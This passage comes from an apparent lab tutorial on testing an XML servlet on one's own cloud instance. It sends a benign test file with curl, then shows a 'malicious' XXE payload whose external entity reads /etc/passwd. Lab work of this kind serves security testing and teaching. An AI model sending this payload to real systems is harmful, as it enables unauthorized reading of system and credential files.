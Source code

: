 ### **5. Test with a Simple Payload**

Before testing the malicious payload, ensure that the servlet is working correctly with a simple payload.

#### **a. Create a Simple Payload**

Create a file named `simple_payload.xml`:

```bash
nano simple_payload.xml
```

Content:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>Hello World</root>
```

Save and exit.

#### **b. Send the Simple Payload**

```bash
curl -X POST -H "Content-Type: application/xml" --data @simple_payload.xml http://<EXTERNAL_IP>/SOAPService
```

- Replace `<EXTERNAL_IP>` with your instance's external IP.

**Expected Response:**

```xml
<response>Hello World</response>
```

- If you receive this response, the servlet is correctly processing XML input and returning the content.

### **6. Test the Malicious Payload**

#### **a. Confirm the Malicious Payload**

Ensure that your `malicious_payload.xml` file contains the correct XXE payload.

```bash
nano malicious_payload.xml
```

Content:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ELEMENT root ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<root>&xxe;</root>
```
